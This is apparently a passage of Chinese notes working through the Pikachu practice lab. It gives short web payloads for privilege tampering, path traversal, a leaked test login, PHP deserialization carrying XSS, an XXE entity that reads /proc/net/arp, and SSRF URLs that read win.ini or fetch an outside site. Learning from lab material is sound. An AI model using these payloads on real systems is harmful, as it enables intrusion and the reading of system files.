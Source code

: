 ```php
?username=kobe&submit=点击查看个人信息
```

### 垂直越权

## 目录遍历

```php
?title=../../../README.md
```

## 敏感信息泄露

源码泄露测试账号

```js
 </div><!-- 测试账号:lili/123456-->
```

## PHP反序列化

```php
<?php
class S{
       public $test="<script>alert(1)</script>";
   }
   $s=new S(); //创建一个对象
   echo serialize($s);
?>
```

## XXE

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [<!ENTITY goodies SYSTEM "file:///proc/net/arp">]>
<user><username>&goodies;</username><password>testtest</password></user>
```

## SSRF

### curl

```php
http://192.168.52.137/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com
```

### file_get_content

```php
http://192.168.52.137/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///c:/windows/win.ini
```

